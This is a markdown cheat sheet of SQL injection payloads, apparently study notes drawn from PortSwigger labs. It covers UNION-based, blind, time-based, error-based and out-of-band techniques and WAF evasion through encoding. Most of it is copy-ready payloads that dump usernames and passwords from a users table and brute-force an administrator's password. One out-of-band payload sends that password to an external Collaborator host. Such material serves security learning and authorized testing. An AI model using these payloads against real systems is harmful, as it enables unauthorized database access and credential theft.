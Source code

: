 # SQL Injection (SQLi) Attacks

## Encoding Techniques

- Start with raw payloads; if blocked, try URL encoding.
- If WAF blocks still occur, switch to Hex or Unicode encoding.
- Combine encoding methods (e.g., double encoding) for increased stealth.

### When Not to Encode

- Request body uses JSON, XML, or plaintext.
  Example: `{ "username": "admin' OR '1'='1" }`
- Cookies and Headers.

## UNION-Based SQLi

Used when application displays query results in responses.

### Requirements

- Same number of columns.
- Compatible data types.
- Add comment using `#` or `--`.

### Determine Column Count

**Method 1: ORDER BY**

```sql
' ORDER BY 1--
' ORDER BY 2--
```

**Method 2: UNION SELECT NULLs**

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

If error occurs, number of columns is incorrect.

**For Oracle:**
Use `FROM DUAL`:

```sql
' UNION SELECT NULL FROM DUAL--
```

### Determine Writable Columns

Test each column with string:

```sql
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```

If error, column can't hold string data.

### Extract Table Data

```sql
' UNION SELECT username,password FROM users--
' UNION SELECT NULL,username,password FROM users--
```

### Concatenate Values (Oracle):

```sql
' UNION SELECT NULL,username || '~' || password FROM users--
```

### Database Version

```sql
-- MySQL
SELECT @@version
-- Oracle
SELECT * FROM v$version
-- PostgreSQL
SELECT version()
```

### List Tables and Columns

```sql
-- List tables
' UNION SELECT table_name, NULL FROM information_schema.tables--
-- List columns
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```

## Blind SQLi

When responses do not include query results.

### Conditional Response

Example using cookie:

```http
Cookie: TrackingId=xyz' AND '1'='1
Cookie: TrackingId=xyz' AND '1'='2
```

### Extract Password for Known User

```sql
-- Confirm table
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
-- Confirm user
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
-- Determine password length
TrackingId=xyz' AND (SELECT LENGTH(password)>1 FROM users WHERE username='administrator')='a
-- Guess characters
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Use Burp Intruder to brute force characters. Adjust substring index to loop through the password.

## Time-Based Blind SQLi

Determine true/false conditions using delay.

### Example (PostgreSQL):

```sql
TrackingId=x'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

Delay = True; No delay = False

### Exploit Example:

```sql
-- Confirm username exists
TrackingId=x'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Guess password length
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Extract password
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
```

## Out-of-Band (OAST) SQLi

When application makes async SQL queries.

### Test with Burp Collaborator

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

### Exfiltrate Data

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

## Error-Based SQLi

Use error messages to infer or extract data.

### Test

```sql
TrackingId=xyz'
TrackingId=xyz''
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'||(SELECT '' FROM dual)||'
TrackingId=xyz'||(SELECT '' FROM not_a_real_table)||'
```

### Exploit

```sql
-- Confirm table exists
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
-- Force error based on condition
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

---

**Reference**: [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

